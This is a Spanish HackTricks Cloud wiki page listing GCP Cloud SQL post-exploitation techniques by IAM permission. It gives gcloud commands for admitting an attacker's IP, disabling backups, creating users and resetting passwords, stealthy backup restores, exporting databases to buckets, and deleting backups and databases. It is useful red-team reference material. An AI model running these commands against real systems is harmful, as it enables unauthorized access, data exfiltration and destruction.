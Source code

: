 # GCP - Cloud SQL Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Cloud SQL

Para más información sobre Cloud SQL consulta:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para conectarte a las bases de datos **solo necesitas acceso al puerto de la base de datos** y conocer el **nombre de usuario** y **contraseña**, no hay requisitos de IAM. Así que, una forma fácil de obtener acceso, suponiendo que la base de datos tiene una dirección IP pública, es actualizar las redes permitidas y **permitir que tu propia dirección IP acceda a ella**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
También es posible usar **`--no-backup`** para **interrumpir las copias de seguridad** de la base de datos.

Dado que estos son los requisitos, no estoy completamente seguro de cuáles son los permisos **`cloudsql.instances.connect`** y **`cloudsql.instances.login`**. Si lo sabes, ¡envía un PR!

### `cloudsql.users.list`

Obtén una **lista de todos los usuarios** de la base de datos:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Este permiso permite **crear un nuevo usuario dentro** de la base de datos:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Este permiso permite **actualizar un usuario dentro** de la base de datos. Por ejemplo, podrías cambiar su contraseña:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Las copias de seguridad pueden contener **información sensible antigua**, por lo que es interesante revisarlas.\
**Restaurar una copia de seguridad** dentro de una base de datos:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para hacerlo de una manera más sigilosa, se recomienda crear una nueva instancia de SQL y recuperar los datos allí en lugar de en las bases de datos que se están ejecutando actualmente.

### `cloudsql.backupRuns.delete`

Este permiso permite eliminar copias de seguridad:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportar una base de datos** a un Bucket de Cloud Storage para que puedas acceder a ella desde allí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar una base de datos** (sobrescribir) desde un Bucket de Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Eliminar una base de datos de la instancia de db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

